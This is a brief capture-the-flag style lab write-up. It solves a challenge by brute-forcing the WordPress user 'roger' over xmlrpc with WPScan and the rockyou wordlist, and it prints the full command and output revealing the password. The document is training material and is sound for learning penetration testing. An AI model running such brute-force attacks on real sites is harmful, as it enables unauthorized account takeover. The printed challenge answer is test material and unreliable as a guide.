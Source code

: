 
## Challenge 1

Perform a bruteforce attack against the user "roger" on your target with the wordlist "rockyou.txt". Submit the user's password as the answer.

## Solution 1

Start the password attack on xmlrpc using WPScan.

```sh
wpscan --password-attack xmlrpc -t 20 -U roger -P rockyou.txt --url http://94.237.58.244:48092
```

After a short time of brute forcing, it found the password for the user **roger**.

```sh
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - roger / lizard                                                                                                         
Trying roger / 8675309 Time: 00:00:48 <                                                   > (1900 / 14346291)  0.01%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: roger, Password: lizard
```


